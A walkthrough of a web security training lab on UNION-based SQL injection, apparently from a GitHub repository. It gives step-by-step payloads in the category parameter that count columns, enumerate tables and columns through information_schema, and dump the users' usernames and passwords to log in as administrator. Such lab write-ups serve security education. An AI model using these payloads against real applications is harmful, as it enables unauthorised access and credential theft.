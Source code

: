 ![Lab title](image.png)

Lab: SQL injection attack, listing the database contents on non-Oracle databases

Solution:   
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. Now we will find out number of column and what type of data it's storing. [Use cheat sheet to get all the payloads]
    
        for column, use [Category]'+order+by+n+-- (n=1,2,3...n)
        if it's storing data or not
            [Category]'+union+select+null,+null+--
        if it's storing text data or not
            [Category]'+union+select+'A',+'B'+--        `
    5. To retrieve table data 
            [Category]'union+select+table_name,+null+from+information_schema.tables+--
        now copy the url and paste on the browser to show available table data
    6. save a user data from the table for later use
    "users_arjokz"
        now retrieve column data
            [Category]'union+select+column_name,+null+from+information_schema.columns+where+table_name='users_arjokz'+--

            then send it and open it in a new tab, we can now see the column names. 
    7. Now to retrieve username and password, our union attack will be like this
            [Category]'union+select+username_qlijnh,+password_rqddob+from+users_arjokz+--

            now send it and open it in a new tab. You will find administrator and it's password. So, save it and log in with it.

![solved](image-1.png)
